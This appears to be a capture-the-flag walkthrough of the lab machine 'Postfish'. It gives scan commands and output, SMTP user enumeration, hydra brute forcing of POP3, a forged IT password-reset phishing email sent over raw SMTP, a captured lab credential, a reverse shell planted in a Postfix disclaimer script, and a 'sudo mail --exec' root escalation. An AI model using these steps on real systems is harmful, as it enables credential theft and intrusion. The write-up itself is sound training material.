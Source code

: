 `nmap -A -T4 -p- 192.168.217.137`

```
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c1:99:4b:95:22:25:ed:0f:85:20:d3:63:b4:48:bb:cf (RSA)
|   256 0f:44:8b:ad:ad:95:b8:22:6a:f0:36:ac:19:d0:0e:f3 (ECDSA)
|_  256 32:e1:2a:6c:cc:7c:e6:3e:23:f4:80:8d:33:ce:9b:3a (ED25519)
25/tcp  open  smtp     Postfix smtpd
| ssl-cert: Subject: commonName=ubuntu
| Subject Alternative Name: DNS:ubuntu
| Not valid before: 2021-01-26T10:26:37
|_Not valid after:  2031-01-24T10:26:37
|_ssl-date: TLS randomness does not represent time
|_smtp-commands: postfish.off, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
80/tcp  open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
110/tcp open  pop3     Dovecot pop3d
|_ssl-date: TLS randomness does not represent time
|_pop3-capabilities: RESP-CODES CAPA UIDL AUTH-RESP-CODE TOP PIPELINING USER SASL(PLAIN) STLS
| ssl-cert: Subject: commonName=ubuntu
| Subject Alternative Name: DNS:ubuntu
| Not valid before: 2021-01-26T10:26:37
|_Not valid after:  2031-01-24T10:26:37
143/tcp open  imap     Dovecot imapd (Ubuntu)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=ubuntu
| Subject Alternative Name: DNS:ubuntu
| Not valid before: 2021-01-26T10:26:37
|_Not valid after:  2031-01-24T10:26:37
|_imap-capabilities: IMAP4rev1 LOGIN-REFERRALS AUTH=PLAINA0001 have OK post-login LITERAL+ Pre-login IDLE ID STARTTLS listed capabilities more SASL-IR ENABLE
993/tcp open  ssl/imap Dovecot imapd (Ubuntu)
|_imap-capabilities: IMAP4rev1 LOGIN-REFERRALS Pre-login OK post-login LITERAL+ have IDLE ID AUTH=PLAINA0001 listed capabilities more SASL-IR ENABLE
| ssl-cert: Subject: commonName=ubuntu
| Subject Alternative Name: DNS:ubuntu
| Not valid before: 2021-01-26T10:26:37
|_Not valid after:  2031-01-24T10:26:37
|_ssl-date: TLS randomness does not represent time
995/tcp open  ssl/pop3 Dovecot pop3d
|_ssl-date: TLS randomness does not represent time
|_pop3-capabilities: UIDL RESP-CODES PIPELINING CAPA USER AUTH-RESP-CODE SASL(PLAIN) TOP
| ssl-cert: Subject: commonName=ubuntu
| Subject Alternative Name: DNS:ubuntu
| Not valid before: 2021-01-26T10:26:37
|_Not valid after:  2031-01-24T10:26:37
Device type: general purpose|router
**Running: Linux 5.X, MikroTik RouterOS 7.X**
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 4 hops
Service Info: Host:  postfish.off; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   38.62 ms 192.168.45.1
2   38.60 ms 192.168.45.254
3   39.57 ms 192.168.251.1
4   39.63 ms 192.168.217.137

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.69 seconds

```




```
ffuf -ic -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://postfish.off/FUZZ
```

Nothing was found, besides the Teams page which we would as part of our enumeration and the rest of the services appear email related. That being said names on a public site can allow us to potentially enumerate users through smtp. So I am going to generate a userlist to test using username-anarchy

![](Images/Pasted%20image%2020250505210902.png)

We are able to determine the user name scheme as first.last. Using this we can potentially try and brute force some users.

```
claire.madison
mike.ross
brian.moore 
sarah.lorem 
```

Those didn't lead to any authentications, so instead lets try and use cewl to scrape and potentially generate more users to test.

```
cewl -d 5 -m 3 http://postfish.off/team.html -w ./cewl.txt
```

We get some new ones.

```
192.168.217.137: Legal exists
192.168.217.137: Sales exists
```


```
hydra -L usernames.txt -P /usr/share/wordlists/rockyou.txt $ip pop3 -V -f
```

Nothing was found, with rock you. So lets think simple and just test username as username and password. After some testing we get authentication.

![](Images/Pasted%20image%2020250505212117.png)

The email we can retrieve seems to be an email from IT Stating that they will be resetting passwords? Is this supposed to be a phishing box?

![](Images/Pasted%20image%2020250505212222.png)

We can compose an email from IT while having an NC listener on port 80 to grab anything typed.

```
220 postfish.off ESMTP Postfix (Ubuntu)
MAIL FROM: it@postfish.off
250 2.1.0 Ok
RCPT TO: brian.moore@postfish.off
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
Subject: Password Resetreset password at this link <http://192.168.45.244/>
.
250 2.0.0 Ok: queued as 1C3EA4023A
QUIT
221 2.0.0 Bye
```

Come on internal IT-Sec train your users!

![](Images/Pasted%20image%2020250505212811.png)

`brian.moore:EternaLSunshinE`

Login via SSH to grab local.txt and move forward.

![](Images/Pasted%20image%2020250505212957.png)

# Post Exploitation

Run Linpeas and wait for output. 

The only real lead I found was an executable not typical for Linux `/etc/postfix/disclaimer` upon looking at the executable it appears to be run by a diff user that could lead to lateral user move would could lead to escalation.

![](Images/Pasted%20image%2020250505215010.png)

Lets add a bash reverse shell and see if we can get execution through sending another email as this is an email disclaimer. Like when an external email is received. 

![](Images/Pasted%20image%2020250505215209.png)

```
Trying 192.168.217.137...
Connected to 192.168.217.137.
Escape character is '^]'.
220 postfish.off ESMTP Postfix (Ubuntu)
MAIL FROM: it@postfish.off
250 2.1.0 Ok
RCPT TO: brian.moore@postfish.off
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
hi
.
250 2.0.0 Ok: queued as 313B34043F
quit
221 2.0.0 Bye
Connection closed by foreign host.
```

This triggers our shell.

![](Images/Pasted%20image%2020250505215326.png)

Quick manual enumeration finds us our escalation path.

![](Images/Pasted%20image%2020250505215355.png)

```
sudo mail --exec='!/bin/sh'
```

![](Images/Pasted%20image%2020250505215443.png)